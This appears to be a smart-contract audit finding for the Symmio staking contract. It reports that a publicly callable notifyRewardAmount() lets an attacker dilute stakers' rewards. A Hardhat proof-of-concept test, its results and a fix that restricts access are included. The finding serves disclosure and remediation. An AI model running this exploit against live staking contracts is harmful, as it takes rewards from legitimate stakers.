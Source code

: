Thankful Powder Tiger

High

# Attacker Will Dilute Rewards for Legitimate Stakers

## Summary

The staking contract is designed to distribute rewards over a set period. The function [notifyRewardAmount()](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L270C2-L293C1) is intended to update the reward schedule whenever new rewards are added. However, because this function is publicly accessible (i.e., anyone can call it), it can be exploited to manipulate the reward rate.

Note: It's important to note that the [tests](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/tests/symmStaking.behavior.ts#L103) passed because they utilized an admin account to call the `notifyRewardAmount()` function.

## Impact

The vulnerability exposes all stakers to potential reward dilution, causing economic harm and reducing trust in the staking system.

## Attack Path

1. Admin sets a high reward rate.
2. A legitimate user begins accruing rewards.
3. An attacker then intervenes by depositing tokens and calling notifyRewardAmount() with a very low reward amount, thereby resetting the reward rate.
4. As a result, the additional rewards accrued in the second period are much lower.

## Proof of Concept

The following Hardhat test illustrates the attack scenario:

```ts 
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers"
import { loadFixture, time } from "@nomicfoundation/hardhat-network-helpers"
import { expect } from "chai"
import { ethers } from "hardhat"
import { ERC20, Symmio, SymmStaking } from "../typechain-types"
import { e } from "../utils"
import { initializeFixture, RunContext } from "./Initialize.fixture"

export function shouldBehaveLikeSymmStaking() {
	let context: RunContext
	let symmStaking: SymmStaking
	let stakingToken: Symmio
	let user1: SignerWithAddress
	let user2: SignerWithAddress
	let admin: SignerWithAddress
	let usdtToken: ERC20
	let usdcToken: ERC20

	beforeEach(async function () {
		context = await loadFixture(initializeFixture)
		symmStaking = context.symmStaking
		admin = context.signers.admin
		user1 = context.signers.user1
		user2 = context.signers.user2
		stakingToken = context.symmioToken

		// 1. Mint initial balance of 100 SYMM (staking token) to user1, user2, and admin
		let initialBalance: bigint = e("1000000")
		await stakingToken.connect(admin).mint(user1.address, initialBalance)
		await stakingToken.connect(admin).mint(user2.address, initialBalance)
		await stakingToken.connect(admin).mint(admin.address, initialBalance)

		// 2. Deploy USDT (ERC20) and USDC (ERC20) tokens
		const ERC20 = await ethers.getContractFactory("MockERC20")

		// USDT Token
		usdtToken = await ERC20.connect(admin).deploy("USDT", "USDT")
		await usdtToken.waitForDeployment()

		// USDC Token
		usdcToken = await ERC20.deploy("USDC", "USDC")
		await usdcToken.waitForDeployment()
	})

	describe("Deployment", function () {
		it("should have the correct admin", async () => {
			expect(await context.symmStaking.hasRole(await context.symmStaking.DEFAULT_ADMIN_ROLE(), await context.signers.admin.getAddress())).to.be.true
		})

		it("should set the correct staking token", async function () {
			expect(await context.symmStaking.stakingToken()).to.equal(await symmStaking.stakingToken())
		})
	})

	describe("Reward Calculation", function () {
		it("should calculate reward correctly after user deposit", async function () {
			const DAY = 24 * 60 * 60;
			const depositAmount = ethers.parseEther("604800");
			const rewardAmount = ethers.parseEther("604800");
			const attackerRewardAmount = ethers.parseEther("10");
		
			// --- Admin sets an initial reward period using USDC as reward token ---
			await usdcToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount);
			await symmStaking.connect(admin).configureRewardToken(await usdcToken.getAddress(), true);
			await symmStaking.connect(admin).notifyRewardAmount([await usdcToken.getAddress()], [rewardAmount]);
		
			await ethers.provider.send("evm_increaseTime", [DAY]);
			await ethers.provider.send("evm_mine");
		
			// --- User deposits staking tokens (SYMM) ---
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount);
			await symmStaking.connect(user1).deposit(depositAmount, user1.address);
		
			await ethers.provider.send("evm_increaseTime", [DAY]);
			await ethers.provider.send("evm_mine");
		
			// Get the user's earned rewards (USDC) before attacker interference
			let earnedBefore = await symmStaking.earned(user1.address, await usdcToken.getAddress());
		
			// --- Attacker intervenes ---
			// The attacker deposits funds (SYMM) to appear as a staker
			await stakingToken.connect(user2).approve(await symmStaking.getAddress(), depositAmount);
			await symmStaking.connect(user2).deposit(depositAmount, user2.address);
			
			// note: transfer attackerRewardAmount from admin to user2 because user2 doesn't have any balance.
			await usdcToken.connect(admin).transfer(user2.address, attackerRewardAmount);
		
			// Attacker resets reward rate with a small amount using USDC as reward token
			await usdcToken.connect(user2).approve(await symmStaking.getAddress(), attackerRewardAmount);
			await symmStaking.connect(user2).notifyRewardAmount([await usdcToken.getAddress()], [attackerRewardAmount]);
		
			await ethers.provider.send("evm_increaseTime", [DAY]);
			await ethers.provider.send("evm_mine");
		
			// Get the user's earned rewards (USDC) after attacker interference
			let earnedAfter = await symmStaking.earned(user1.address, await usdcToken.getAddress());
		
			// Log values for debugging
			console.log("User earned before attacker interference:", ethers.formatEther(earnedBefore));
			console.log("User earned after attacker interference:", ethers.formatEther(earnedAfter));
		
			// --- Assertion ---
			const delta = earnedAfter - earnedBefore;
			const expectedDelta = BigInt("30860428571428571136000"); // Expected delta in wei (~30860.428571 tokens)
		
			const tolerance = BigInt("500000000000000000"); // Tolerance of 0.5 token in wei
            expect(delta).to.be.within(expectedDelta - tolerance, expectedDelta + tolerance);
		
			// Claim rewards and check USDC balances for both users
			const user1BalanceBefore = await usdcToken.balanceOf(user1.address);
			await symmStaking.connect(user1).claimRewards();
			const user1BalanceAfter = await usdcToken.balanceOf(user1.address);
			const user1Claimed = user1BalanceAfter - user1BalanceBefore;
			console.log("user1Claimed", user1Claimed);
		
			const user2BalanceBefore = await usdcToken.balanceOf(user2.address);
			await symmStaking.connect(user2).claimRewards();
			const user2BalanceAfter = await usdcToken.balanceOf(user2.address);
			const user2Claimed = user2BalanceAfter - user2BalanceBefore;
			console.log("user2Claimed", user2Claimed);
		});
    })	
}
```

**Test Outcome**
  
Before the Attack: User1 accrued rewards consistent with the high reward rate (e.g., approximately 86,400 tokens over one day). 
 
After the Attack: Following User2’s low-value call, User1’s additional rewards for the next period increased by only about 30,860 tokens instead of the expected 86,400 tokens.

## Recommendation

Modify the `notifyRewardAmount()` function so it is callable only by authorized roles (e.g., admin or reward manager). This prevents arbitrary external calls that can alter the reward rate.